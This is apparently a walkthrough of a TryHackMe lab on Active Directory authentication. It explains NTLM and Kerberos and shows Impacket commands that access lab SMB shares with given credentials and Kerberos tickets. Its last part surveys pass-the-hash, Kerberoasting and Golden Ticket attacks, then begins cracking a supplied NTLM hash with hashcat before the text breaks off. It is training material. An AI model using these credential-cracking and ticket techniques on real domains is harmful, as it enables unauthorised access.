





# Intro to AD Authentication

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Network
Difficulty: Medium
Tags: Windows, Active Directory
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
Subscription type: Premium
Description:
Examine how AD authentication works and the various protocols it uses.
```

Room link: [https://tryhackme.com/room/introtoactivedirectoryauthentication](https://tryhackme.com/room/introtoactivedirectoryauthentication)

## Solution

### Network Layout



### Task 1: Introduction

When you first gain access to an Active Directory (AD) environment, one of the most important things to understand is how authentication works. Authentication is the process by which users and computers to prove their identities before being granted access to network resources. Without a solid understanding of how this works, it becomes difficult to identify weaknesses or plan an effective attack path.

In this room, we will explore how authentication functions within AD environments. You will learn about the two primary authentication protocols used in Windows domains, namely NTLM and Kerberos, and gain hands-on experience identifying which protocol is being used during a live session. This foundational knowledge is essential before moving on to more advanced topics, such as credential harvesting, relay attacks, and ticket-based exploitation, covered in later rooms.

#### Learning Objectives

In this room, you will learn:

- What authentication means in an Active Directory environment
- The difference between authentication and authorisation
- How NTLM and Kerberos authentication work at a high level
- How to identify which authentication protocol was used during login
- Common weaknesses in AD authentication that attackers can exploit

#### Prerequisites

Before starting this room, you should be familiar with the following:

- Basic understanding of Windows operating systems
- Ability to use command-line tools in PowerShell or CMD
- Concepts covered in [Active Directory Basics](https://tryhackme.com/room/winadbasics)
- Concepts covered in [Windows Fundamentals](https://tryhackme.com/module/windows-fundamentals)

#### Starting the Network

Before moving to the next task, click the green **Start** button under the network diagram. Give the network enough time to launch.

You can connect to the network in two ways:

**AttackBox**:

If you are using the Web-based AttackBox, you will be connected to the network automatically if you start the AttackBox from the room's page. You can verify this by running the `ping` command against the IP of the `ROOTDC.THM.LOC` host. You should also take the time to make note of your VPN IP. Using `ifconfig` or `ip a`, make a note of the IP of the `tun0` network adapter. This is your IP and the associated interface that you should use when performing the attacks in the tasks.

**Other Hosts**:

If you are going to use your own attack machine, an OpenVPN configuration file will have been generated for you once you join the room. Click the **Download VPN Profile** button in the Network Control Panel:



Use an OpenVPN client to connect. This example is shown on the [Linux](https://tryhackme.com/access#pills-linux) machine; use this guide to connect using [Windows](https://tryhackme.com/access#pills-windows) or [macOS](https://tryhackme.com/access#pills-macos).

```bash
user@tryhackme:$ sudo openvpn ad-auth.ovpn
2026-05-01 15:30:18 OpenVPN 2.6.14 aarch64-apple-darwin24.2.0 [SSL (OpenSSL)] [LZO] [LZ4] [PKCS11] [MH/RECVDA] [AEAD]
2026-05-01 15:30:18 library versions: OpenSSL 3.6.1 27 Jan 2026, LZO 2.10
[....]
2026-05-01 15:30:20 /sbin/ifconfig utun4 192.168.21.2 192.168.21.2 netmask 255.255.255.0 mtu 1500 up
2026-05-01 15:30:20 /sbin/route add -net 192.168.21.0 192.168.21.2 255.255.255.0
add net 192.168.21.0: gateway 192.168.21.2
2026-05-01 15:30:20 /sbin/route add -net 192.168.11.0 192.168.21.1 255.255.255.0
add net 192.168.11.0: gateway 192.168.21.1
2026-05-01 15:30:20 Initialization Sequence Completed
```

The "Initialization Sequence Completed" message tells you you are now connected to the network.

If you encounter any issues, please reach out to us on [Discord](https://discord.com/invite/tryhackme) or via email at `support@tryhackme.com`.

---------------------------------------------------------------------------

### Task 2: Authentication in AD

Before diving into tools and techniques, it is important to understand what authentication actually means within an AD environment. Authentication is the process of proving your identity, essentially answering the question: "*Are you who you claim to be?*"

#### Authentication Material

When you authenticate, you provide some form of credential that proves your identity. In AD environments, this is most commonly a username and password combination. However, authentication material can take other forms as well:

- **Username and Password**: The most common method, where you provide something you know.
- **Certificates**: A cryptographic certificate issued by a trusted Certificate Authority (CA) can prove identity. This is often used for machine authentication or smart card logins.
- **Hashes**: While not intended to be used directly, password hashes can be used for authentication in certain attacks (more on this in later tasks).

Regardless of the method, the goal remains the same: prove to the domain that you are who you claim to be.

#### Authentication vs Authorisation

A common point of confusion is the difference between authentication and authorisation. These are two separate processes:

- **Authentication**: Proves your identity - "*You are John.*"
- **Authorisation**: Determines what you are allowed to do - "*John has access to the finance share.*"

Authentication always comes first. The domain must first verify who you are before it can determine what resources you are permitted to access. When you log in to a domain-joined machine, the authentication process verifies your credentials. Once authenticated, authorisation checks (such as group memberships and access control lists) determine what you can actually do on the network.

#### AD Authentication Protocols

When it comes to authentication in AD, there are two core protocols that handle the verification of identity:

- **NetNTLM** (commonly referred to as **NTLM**): A challenge-response authentication protocol that has been around since the early days of Windows NT.
- **Kerberos**: A ticket-based authentication protocol that became the default in Windows 2000 and remains the preferred method today.

While Windows supports other authentication mechanisms, such as certificate-based TLS/SSL for smart card logins, these ultimately still result in a Kerberos ticket being issued for further authentication to domain resources. The certificate proves your identity, but Kerberos handles the actual session authentication afterwards.

You may also encounter protocols such as LDAP, WebDAV, or SMB when working in AD environments. However, these are service or directory access protocols. These rely on either NTLM or Kerberos to perform the actual authentication. For example, when you authenticate to an LDAP service or access an SMB file share, the underlying authentication is handled by NTLM or Kerberos.

Understanding these two core protocols is essential, as nearly every AD-based attack you will encounter targets weaknesses in how NTLM or Kerberos handles authentication. In the next two tasks, we will take a closer look at each protocol and how they work.

---------------------------------------------------------------------------

#### What is the process called that proves your identity?

Answer: `Authentication`

#### What is the process called that determines what you are allowed to access?

Answer: `Authorisation`

---------------------------------------------------------------------------

### Task 3: NetNTLM Authentication

Now that we understand what authentication is, let's take a closer look at the first of the two core AD authentication protocols: NTLM.

#### What is NTLM?

NetNTLM (often simply called NTLM) is a challenge-response authentication protocol that has been around since the early days of Windows NT. While it has largely been replaced by Kerberos as the default authentication protocol in modern Windows environments, NTLM is still widely used today—particularly in legacy systems, workgroup environments, and as a fallback when Kerberos is unavailable.

NTLM comes in several versions:

- **NTLMv1**: The original version, now considered highly insecure.
- **NTLMv2**: An improved version with stronger cryptography, though still vulnerable to various attacks.

#### How NTLM Authentication Works

A key characteristic of NTLM is that the client authenticates to the service they want to access, and that service then verifies the user's identity against the domain controller. This is different from Kerberos, where you authenticate to the domain controller first and receive a ticket to present to services.



The NTLM authentication process follows these steps:

1. The client sends a request to access a service, providing their username.
2. The server generates a random 16-byte number called a **challenge** (or nonce) and sends it to the client.
3. The client encrypts this challenge using the **NT hash** of their password and sends the response back to the server.
4. The server forwards the username, the original challenge, and the client's response to the domain controller.
5. The domain controller retrieves the user's NT hash from its database and uses it to encrypt the same challenge.
6. The domain controller compares its result with the response sent by the client. If they match, authentication is successful.
7. The server receives the result from the domain controller and grants or denies access accordingly.

Notice that the user's actual password is never sent over the network: only the encrypted response to the challenge. This is sometimes referred to as a **zero-knowledge proof**, as the user proves they know the password without ever revealing it directly.

#### Benefits of NTLM

Despite its age, NTLM has some advantages that explain why it remains in use:

- **Simplicity**: NTLM is relatively simple to implement and does not require additional infrastructure like a Key Distribution Center (KDC).
- **No time synchronisation required**: Unlike Kerberos, NTLM does not depend on synchronised clocks between systems, making it easier to deploy in some environments.
- **Fallback compatibility**: NTLM serves as a reliable fallback when Kerberos authentication fails, ensuring users can still authenticate.
- **Workgroup support**: NTLM can be used in non-domain environments (workgroups) where Kerberos is not available.

#### Drawbacks of NTLM

However, NTLM has significant security weaknesses that make it a target for attackers:

- **No mutual authentication**: The client cannot verify the server's identity, leaving it vulnerable to man-in-the-middle attacks.
- **Weak cryptography**: NTLMv1 uses DES encryption and unsalted hashes, which can be cracked quickly with modern hardware. Even NTLMv2, while stronger, stores unsalted hashes in memory.
- **Vulnerable to relay attacks**: An attacker can intercept and relay NTLM authentication to gain unauthorised access to other services.
- **Pass-the-hash attacks**: Since the NT hash is used directly in the authentication process, an attacker with access to the hash can authenticate without knowing the actual password.
- **Slower performance**: Each authentication request requires communication with the domain controller, which can slow down authentication in large environments.

#### When is NTLM Used?

Even in modern AD environments where Kerberos is the default, NTLM will be used in the following scenarios:

- When the client cannot reach a domain controller to obtain a Kerberos ticket.
- When accessing a resource by IP address instead of hostname (Kerberos requires a Service Principal Name, which relies on DNS names).
- When the target service does not have a registered Service Principal Name (SPN) in Active Directory.
- When authenticating to systems that are not domain-joined.
- When legacy applications require NTLM.

#### NTLM Authentication with Impacket

Let's see NTLM authentication in action. We will use an Impacket tool to authenticate to a target machine using credentials. Impacket is a collection of Python scripts that implement various network protocols, including those used in AD environments. The Impacket toolkit is available on the AttackBox in the `/opt/impacket/examples/` directory.

From your AttackBox, use `smbclient.py` from Impacket to connect to a share on the target using NTLM authentication:

```bash
root@tryhackme:~$ smbclient.py thm.loc/claire:'Password123!'@192.168.11.51
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

Type help for list of commands
# 
```

Once connected, you can list shares using the `shares` command. Then, connect to `SHARE1` through the `use SHARE1` command. You can then get access to the flag.

Behind the scenes, the following occurred:

1. Your client sent your username to the target.
2. The target responded with a challenge.
3. Your client encrypted the challenge using your password's NT hash and sent the response.
4. The target forwarded your credentials to the domain controller for verification.
5. Upon successful verification, you were granted access.

You have just performed NTLM authentication!

---------------------------------------------------------------------------

#### In NetNTLM, does the client authenticate directly to the domain controller or to the service they want to access?

Answer: `Service`

#### What is the name of the random value that the server sends to the client during NetNTLM authentication?

Answer: `Challenge`

#### What is the value of Flag 1 that you can recover from SHARE1?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ export TARGET_IP=192.168.11.51                             

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ impacket-smbclient thm.loc/claire:'Password123!'@$TARGET_IP
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
C$
IPC$
SHARE1
SHARE2
SHARE3
SHARE4
SHARE5
SHARE6
# use SHARE1
# ls
drw-rw-rw-          0  Sun Feb  8 15:57:52 2026 .
drw-rw-rw-          0  Sun Feb  8 15:57:52 2026 ..
-rw-rw-rw-         41  Sun Feb  8 15:57:52 2026 flag1.txt
# get flag1.txt
# exit

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ cat flag1.txt                      
THM{<REDACTED>}
```

Answer: `THM{<REDACTED>}`

---------------------------------------------------------------------------

### Task 4: Kerberos Authentication

Now let's examine Kerberos, the default authentication protocol in modern AD environments. Unlike NTLM, Kerberos uses a ticket-based system and authenticates through a trusted third party: the Key Distribution Center (KDC).

#### What is Kerberos?

Kerberos is a network authentication protocol developed by MIT and adopted by Microsoft as the default authentication method starting with Windows 2000. The protocol is named after Cerberus, the three-headed dog from Greek mythology that guards the gates of the underworld; a fitting name for a protocol designed to guard access to network resources.

A critical difference between Kerberos and NTLM is **where authentication occurs**. With NTLM, you authenticate to the service you want to access, which then verifies your identity with the domain controller. With Kerberos, this is reversed; you authenticate to the domain controller first and receive tickets that you then present to services to prove your identity.

#### Key Kerberos Components

Before diving into the authentication flow, let's define the key components:

|Component|Description|
|----|----|
|Key Distribution Center (KDC)|A service running on the domain controller that handles all ticket requests. It consists of the Authentication Service (AS) and the Ticket Granting Service (TGS).|
|Authentication Service (AS)|The component of the KDC that verifies the user's identity and issues the initial Ticket Granting Ticket (TGT).|
|Ticket Granting Service (TGS)|The component of the KDC that issues service tickets to users who present a valid TGT.|
|Ticket Granting Ticket (TGT)|The initial "primary ticket" issued after successful authentication. This ticket is used to request access to specific services.|
|Service Ticket (ST)|A ticket that grants access to a specific service. Obtained by presenting a TGT to the TGS.|
|Service Principal Name (SPN)|A unique identifier for a service instance, used by Kerberos to associate a service with a specific account.|
|KRBTGT Account|A special account in AD whose password hash is used to encrypt all TGTs. Compromise of this account allows forging of Golden Tickets.|

#### How Kerberos Authentication Works

The Kerberos authentication process involves multiple exchanges between the client, the KDC, and the target service. In total, there are 5 steps and 8 processes, as detailed below:

**Step 1**: **Authentication Service Request** (AS-REQ)

1. The user enters their credentials on the client machine.

2. The client sends an Authentication Service Request (AS-REQ) to the KDC, containing the username and a timestamp encrypted with the user's password hash (this is called pre-authentication).

**Step 2**: **Authentication Service Response** (AS-REP)

3. The KDC verifies the user's identity by decrypting the timestamp using the user's password hash stored in AD.

4. If successful, the KDC responds with an AS-REP containing:

- A session key encrypted with the user's password hash.
- A TGT encrypted with the KRBTGT account's password hash.

The client can decrypt the session key, but cannot decrypt or modify the TGT; only the KDC can. These first two steps are shown in the diagram below:



**Step 3**: **Ticket Granting Service Request** (TGS-REQ)

5. When the user wants to access a service, the client sends a TGS-REQ to the KDC containing:

- The TGT received earlier.
- The SPN of the service they want to access.
- An authenticator (username and timestamp) encrypted with the session key.

**Step 4**: **Ticket Granting Service Response** (TGS-REP)

6. The KDC decrypts the TGT using the KRBTGT hash, validates the request, and responds with:

- A Service Ticket (ST) encrypted with the target service's password hash.
- A service session key encrypted with the original session key.

Step 3 and 4 are shown in the diagram below:



**Step 5**: **Application Request** (AP-REQ)

7. The client presents the Service Ticket to the target service.

8. The service decrypts the ticket using its own password hash, validates the user's identity, and grants access.

The last step is shown in the diagram below:


#### Benefits of Kerberos

Kerberos offers significant advantages over NTLM:

- **Mutual authentication**: Both the client and the server verify each other's identity, protecting against man-in-the-middle attacks.
- **No password transmission**: Passwords and hashes are never sent over the network; only encrypted tickets and session keys are.
- **Single Sign-On (SSO)**: Once a user obtains a TGT, they can access multiple services without re-entering credentials.
- **Delegation support**: Kerberos supports delegation, allowing services to act on behalf of users to access other resources.
- **Better performance**: The KDC is only contacted during initial authentication and when requesting new service tickets. Services validate tickets locally without contacting the DC for each request.
- **Time-limited tickets**: Tickets have configurable lifetimes (typically 10 hours for TGTs), limiting the window of opportunity for attackers.

#### Drawbacks of Kerberos

Despite its improvements, Kerberos has its own weaknesses:

- **Time synchronisation required**: Kerberos requires clocks to be synchronised within 5 minutes. Large time differences cause authentication failures.
- **Single point of failure**: The KDC is critical, if it is unavailable, Kerberos authentication fails entirely (though NTLM may be used as fallback).
- **Vulnerable to ticket attacks**: Stolen tickets can be used to impersonate users (Pass-the-Ticket). A compromised KRBTGT hash allows the forging of Golden Tickets.
- **Kerberoasting**: Service tickets are encrypted with service account password hashes, which can be requested by any authenticated user and cracked offline. ComplexityKerberos requires proper SPN registration, DNS configuration, and time synchronisation, making it more complex to deploy and troubleshoot.

#### Credential Cache (ccache) Files

On Linux systems, Kerberos stores tickets in credential cache files, commonly called **ccache files**. These files hold the user's TGT and any service tickets they have obtained during their session.

Key points about ccache files:

- Default location: `/tmp/krb5cc_%{uid}` (e.g., `/tmp/krb5cc_1000` for UID 1000)
- The `KRB5CCNAME` environment variable specifies which ccache file to use.
- The `klist` command displays tickets stored in the current ccache.
- Tools like Impacket use ccache files to authenticate without passwords.

This is important for attackers because if you can obtain a user's ccache file, you can authenticate as that user without knowing their password, an attack known as **Pass-the-Ticket** or **Pass-the-ccache**.

#### Kerberos Authentication with Impacket

Let's see Kerberos authentication in action using Impacket. We will first obtain a TGT and store it in a ccache file, then use that ticket to authenticate to a service. Given that Kerberos works through DNS, the very first step is to hardcode the SERVER1 hostname:

```bash
root@tryhackme:~$ echo 192.168.11.51 SERVER1.thm.loc >> /etc/hosts
```

Using the same terminal from the previous task, we will use `getTGT.py` from Impacket to request a TGT:

```bash
root@tryhackme:~$ getTGT.py thm.loc/mary:'SuperLongForKerberos123!' -dc-ip 192.168.11.100
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Saving ticket in mary.ccache
```

This will create a ccache file named `mary.ccache` in your current directory.

Now, to use this ticket for authentication, we need to set the `KRB5CCNAME` environment variable to point to our ccache file:

```bash
root@tryhackme:$ export KRB5CCNAME=mary.ccache
```

With the environment variable set, we can now use Kerberos authentication with other Impacket tools. Let's connect to an SMB share using `smbclient.py` with Kerberos authentication:

```bash
root@tryhackme:$ smbclient.py thm.loc/mary@SERVER1.thm.loc -k -no-pass -dc-ip 192.168.11.100
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

Type help for list of commands
#
```

The `-k` flag tells the tool to use Kerberos authentication, and `-no-pass` indicates we are authenticating with a ticket rather than a password. Since it will request the TGS from the domain controller but DNS isn't working, we use the `-dc-ip` flag to tell it where to find the KDC.

> [!NOTE]  
> When using Kerberos, you must use the **hostname** (not the IP address) because Kerberos relies on SPNs which are tied to DNS names.

Behind the scenes, the following occurred:

1. Your client used the TGT from the ccache file to request a Service Ticket from the KDC.
2. The KDC issued a Service Ticket for the SMB service.
3. Your client presented the Service Ticket to the target host.
4. The target host validated the ticket and granted access.

You have just performed Kerberos authentication!

---------------------------------------------------------------------------

#### What is the name of the ticket issued by the KDC that allows you to request service tickets?

Answer: `Ticket Granting Ticket`

#### What special account's password hash is used to encrypt all TGTs?

Answer: `krbtgt`

#### What environment variable is used to specify the location of a Kerberos credential cache file on Linux?

Answer: `KRB5CCNAME`

#### What is the value of Flag 2 that you can recover from SHARE2 using Kerberos authentication?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ echo -e "$TARGET_IP\tSERVER1.thm.loc" | sudo tee -a /etc/hosts
[sudo] password for kali: 
192.168.11.51   SERVER1.thm.loc

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ export DC_IP=192.168.11.100                                   

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ impacket-getTGT thm.loc/mary:'SuperLongForKerberos123!' -dc-ip $DC_IP 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in mary.ccache

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ export KRB5CCNAME=mary.ccache

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ impacket-smbclient thm.loc/mary@SERVER1.thm.loc -k -no-pass -dc-ip $DC_IP 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
C$
IPC$
SHARE1
SHARE2
SHARE3
SHARE4
SHARE5
SHARE6
# use SHARE2
# ls
drw-rw-rw-          0  Sun Feb  8 15:58:12 2026 .
drw-rw-rw-          0  Sun Feb  8 15:58:12 2026 ..
-rw-rw-rw-         41  Sun Feb  8 15:58:12 2026 flag2.txt
# get flag2.txt
# exit

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Authentication]
└─$ cat flag2.txt 
THM{<REDACTED>}
```

Answer: `THM{<REDACTED>}`

---------------------------------------------------------------------------

### Task 5: Weaknesses in AD Authentication

Now that you understand how NTLM and Kerberos authentication work, it's important to understand why this knowledge matters from a security perspective. Both protocols, whilst functional, have significant weaknesses that attackers can exploit to gain unauthorised access to systems and data. Despite being decades old, these vulnerabilities remain prevalent in modern AD environments and are actively exploited in real-world attacks.

#### Common Authentication Weaknesses in AD

AD authentication is plagued by numerous weaknesses that stem from both protocol design limitations and common misconfigurations. Understanding these vulnerabilities is essential for both offensive security practitioners and defenders. Some of the most commonly exploited authentication weaknesses include:

**NTLM-Specific Weaknesses**:

- **Weak Cryptography**: NTLM uses the outdated MD4 hashing algorithm without salt, making password hashes vulnerable to rainbow table attacks and rapid brute-force cracking with modern GPU hardware.
- **Pass-the-Hash (PtH)**: Since NTLM uses the password hash directly in the challenge-response mechanism, an attacker who obtains a user's NTLM hash can authenticate without ever knowing the plaintext password.
- **NTLM Relay Attacks**: The lack of mutual authentication allows attackers to intercept and relay NTLM authentication attempts to other services, gaining unauthorised access without cracking any credentials.
- **Downgrade Attacks**: Attackers can force systems to fall back from Kerberos to the weaker NTLM protocol, exposing them to NTLM-specific attacks.
- **No Mutual Authentication**: NTLM cannot verify the server's identity, making man-in-the-middle attacks significantly easier to execute.

**Kerberos-Specific Weaknesses**:

- **Kerberoasting**: Any authenticated domain user can request service tickets for accounts with registered SPNs. These tickets are encrypted with the service account's password hash and can be cracked offline, often revealing weak service account passwords.
- **AS-REP Roasting**: Users with Kerberos pre-authentication disabled can have their password hashes extracted and cracked offline without requiring any prior authentication to the domain.
- **Pass-the-Ticket (PtT)**: Valid Kerberos tickets can be extracted from memory and reused to authenticate as the ticket's owner, even without knowing their password.
- **Overpass-the-Hash**: An attacker with a user's NTLM hash can request a Kerberos TGT on the user’s behalf, effectively converting the NTLM hash into a Kerberos ticket.
- **Golden Ticket Attacks**: If an attacker obtains the KRBTGT account's password hash, they can forge TGS for any user in the domain, including Domain Admins, providing complete and persistent domain control.
- **Silver Ticket Attacks**: Similar to Golden Tickets, but forged using a service account's password hash to create service tickets for specific resources without contacting the KDC.

**Configuration-Based Weaknesses**:

- **Weak Passwords**: Despite technical controls, weak user and service account passwords remain the most common entry point for authentication attacks.
- **Password Spraying**: Attackers attempt authentication with commonly used passwords across many accounts, often successfully compromising accounts without triggering account lockout policies.
- **Misconfigured Delegation**: Improper configuration of constrained or unconstrained Kerberos delegation can allow privilege escalation and lateral movement.
- **Stale Credentials**: Old service accounts, former employee accounts, and unused machine accounts often have weak or unchanged passwords, providing easy targets.

These vulnerabilities are not theoretical and are actively exploited in the wild. According to recent threat intelligence, credential-based attacks account for the majority of successful AD compromises. Microsoft has even announced plans to deprecate NTLM entirely in future Windows releases due to its inherent security weaknesses, though this transition will take years to complete.

#### Practical Demonstrations

In this task, we will provide you with hands-on experience exploiting four of these authentication weaknesses. For each attack, you will authenticate to a file share used in the previous two tasks (SERVER1.thm.loc:192.168.11.51) using different compromised credentials to retrieve a flag. This task serves as a preview, each technique will be covered in much greater depth in dedicated rooms later in this module.

The four attacks we will demonstrate are:

1. **Weak Password Hashing**: Cracking NTLM hashes to recover plaintext passwords
2. **Pass-the-Hash**: Authenticating with only the hash, no plaintext password required
3. **Kerberoasting**: Extracting and cracking service account credentials
4. **Golden Ticket**: Forging Kerberos tickets to impersonate any user

Let's begin with weak password hashing.

#### Weak Password Hashing

One of the most fundamental weaknesses in AD authentication is the use of weak password hashing. When passwords are stored in AD, they are hashed using the NTLM hashing algorithm. Whilst this prevents passwords from being stored in plaintext, NTLM hashes have a critical flaw: they are computed without a salt. This means that identical passwords will always produce identical hashes, making them vulnerable to pre-computed hash attacks (rainbow tables) and brute-force cracking.

Modern password-cracking tools like Hashcat can process billions of NTLM hash candidates per second with GPU acceleration. If a user has chosen a weak or commonly used password, their NTLM hash can be cracked in seconds or minutes. Once the password is recovered, an attacker can authenticate normally to any service that accepts that user's credentials.

**Why This Works**: NTLM hashes are unsalted and use the relatively fast MD4 algorithm, making them extremely quick to crack with modern hardware. Weak passwords fall quickly to dictionary and rule-based attacks.

**Practical Demonstration**:

You have obtained the following NTLM hash for the user `phillip`:

```text
phillip:1106:aad3b435b51404eeaad3b435b51404ee:939B0058BC6DD834ABC4CC08CFEFEA69:::
```

The format follows the standard NTLM hash format: `username:uid:LM_hash:NTLM_hash:::`. The NTLM hash we need to crack is `939B0058BC6DD834ABC4CC08CFEFEA69`.

Save this hash to a file called `hash.txt` in the format required by Hashcat:

```text
939B0058BC6DD834ABC4CC08CFEFEA69
```

Now use Hashcat to crack the hash. We'll use mode `1000` for NTLM hashes and the rockyou wordlist:

```bash
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```

Once Hashcat completes, it will display the cracked password. You can view the result using:

```bash
hashcat -m 1000 hash.txt --show
```

With the recovered password, authenticate to the file share using Impacket's `smbclient.py`:

```bash
